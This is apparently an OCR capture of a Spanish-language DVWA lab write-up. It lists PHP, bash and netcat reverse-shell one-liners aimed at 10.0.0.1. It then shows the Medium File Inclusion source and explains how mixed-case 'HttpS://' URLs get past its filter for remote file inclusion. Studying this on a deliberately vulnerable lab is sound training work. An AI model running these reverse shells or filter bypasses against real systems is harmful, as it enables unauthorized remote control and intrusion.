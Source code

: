       ."php"
      php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

      ."bash"
      bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

      ."netcat"
      1= nc -e /bin/sh 10.0.0.1 1234
      2= rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f


    #2) DVWA : File Inclusion Attack – Medium

      Medium File Inclusion Source

      <?php

      // The page we wish to display
      $file = $_GET[ 'page' ];

      // Input validation
      $file = str_replace( array( "http://", "https://" ), "", $file );
      $file = str_replace( array( "../", "..\"" ), "", $file );

      ?>
    La diferencia entre el nivel bajo y el nivel medio es que existe una validación de entrada, que simplemente
    bloquea http: // y https: //. Esta validación de entrada se puede aprovechar usando minúsculas y mayúsculas
    o escribiendo más palabras. p.ej. HtTp: //, hhttp: // ttp: //


      $file = str_replace( array( "http://", "https://" ), "", $file );


    Para RFI, esto se puede aprovechar fácilmente mediante el uso de 'Https' o 'HTTPS'
    (por ejemplo, http://localhost/vulnerabilities/fi/?page=hTtPs://google.com)

    #http://localhost/vulnerabilities/fi/?page=HttpS://google.com

    #http://localhost/vulnerabilities/fi/?page=htTps://google.com

    #http://localhost/vulnerabilities/fi/?page=HTTPS://google.com

